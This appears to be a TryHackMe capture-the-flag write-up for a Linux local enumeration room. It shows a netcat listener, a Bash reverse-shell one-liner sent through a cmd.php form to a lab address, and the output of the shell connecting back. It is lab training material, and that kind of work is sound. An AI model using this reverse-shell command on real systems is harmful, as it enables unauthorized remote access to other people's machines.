 ```yaml
---
title: "TryHackMe - Linux: Local Enumeration"
categories:
  - TryHackMe
tags:
  - linux
  - enumeration
  - exploit
  - writeup
  - tryhackme
  - hacking
  - privilege 
  - escalation
---
```


## Introduction
- Go to [10.10.54.36:3000](10.10.54.36:3000).
    <center><a href="/assets/images/tryhackme/linux-local-enumeration/1.png"><img src="/assets/images/tryhackme/linux-local-enumeration/1.png"></a></center>
- Here, i used the Bash reverse shell to gain access to the box. Go to `cmd.php`.
    <center><a href="/assets/images/tryhackme/linux-local-enumeration/2.png"><img src="/assets/images/tryhackme/linux-local-enumeration/2.png"></a></center>
- Set up our Netcat listener.
    ```bash
    $ nc -lnvp 9999
    listening on [any] 9999 ...
    ```
- Enter the payload below to the form at `cmd.php` to gain reverse shell.
    ```php
    bash -c 'exec bash -i &>/dev/tcp/10.11.25.205/9999 <&1'
    ```
- Succeed! We got our rever shell back.
    ```bash
    $ nc -lnvp 9999
    listening on [any] 9999 ...
    connect to [10.11.25.205] from (UNKNOWN) [10.10.54.36] 39438
    bash: cannot set terminal process group (583): Inappropriate ioctl for device
    bash: no job control in this shell
    manager@py:~/Desktop$
    ```
